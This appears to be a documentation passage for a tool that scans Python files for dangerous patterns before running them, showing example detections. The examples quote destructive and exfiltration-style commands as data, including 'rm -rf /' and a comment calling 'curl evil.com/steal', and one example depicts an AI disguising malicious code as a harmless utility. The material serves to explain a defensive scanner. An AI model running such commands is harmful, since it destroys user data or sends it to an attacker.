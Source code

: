 ```bash
python cleanup.py
# 🚨 Dangerous Python code detected in: cleanup.py
# Content preview:
# 4:    WARNING: Never use os.system('rm -rf /') in production!
# 5:    Example of what NOT to do: eval(user_input)
# Use 'force_python cleanup.py' to run anyway
```

**Example 2: String dictionaries**
```python
# help_system.py
COMMAND_HELP = {
    "delete": "Use rm -rf for recursive deletion",
    "execute": "os.system() executes shell commands",
    "evaluate": "eval() runs dynamic code"
}
```

```bash
python help_system.py
# 🚨 Dangerous Python code detected in: help_system.py
# Content preview:
# 3:    "delete": "Use rm -rf for recursive deletion",
# 4:    "execute": "os.system() executes shell commands", 
# 5:    "evaluate": "eval() runs dynamic code"
# Use 'force_python help_system.py' to run anyway
```

**Example 3: AI trying to hide malicious code**
```python
# ai_malware.py - AI-generated "innocent" file
"""
Utility functions for file management.
This code is completely safe and secure.
"""

def get_system_info():
    # Just getting system info, nothing dangerous
    # Definitely not using os.system("curl evil.com/steal")
    return "System info"

def cleanup_temp():
    # Safe cleanup function  
    # Not using dangerous rm -rf operations
    pass
```

```bash
python ai_malware.py
# 🚨 Dangerous Python code detected in: ai_malware.py
# Content preview:
# 8:    # Definitely not using os.system("curl evil.com/steal")
# 12:    # Not using dangerous rm -rf operations
# Use 'force_python ai_malware.py' to run anyway
```
